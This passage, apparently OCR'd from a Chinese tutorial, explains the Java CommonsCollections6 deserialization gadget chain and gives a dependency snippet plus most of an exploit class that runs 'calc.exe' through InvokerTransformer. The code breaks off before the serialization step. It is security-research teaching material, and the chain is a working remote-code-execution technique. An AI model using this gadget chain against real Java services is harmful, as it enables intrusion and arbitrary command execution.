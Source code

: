 ```java
 Map innerMap = new HashMap();
 Map outerMap = LazyMap.decorate(innerMap, transformerChain);
 TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
 Map expMap = new HashMap();
 expMap.put(tme, "valuevalue");
```

在expMap序列化时，即可触发一系列命令的执行

### 利用链完整代码

需要在pom.xml中加入commons-collections的版本声明

```xml
<dependency>
    <groupId>commons-collections</groupId>
    <artifactId>commons-collections</artifactId>
    <version>3.1</version>
</dependency>
```

代码中其它关键点还包括

- 为了避免本地不经意触发命令，一开始构造一个`fakeTransformers`，在后面要生成序列化流时再将其替换为包含真实执行命令的`transformers`
- 由于HashMap.put方法也会调用key.hashCode，会导致LazyMap的利用链被调用，outerMap中出现keykey导致get方法无法被调用，所以需要通过`outerMap.remove("keykey");`将keykey移除，从而触发map的get方法

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CommonsCollections6 {

    public static void main(String[] args) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class,
                        Object[].class }, new Object[] { null, new
                        Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class
                },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new
                ChainedTransformer(fakeTransformers);
        // 不再使⽤原CommonsCollections6中的HashSet，直接使⽤HashMap
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");
        Map expMap = new HashMap();
```
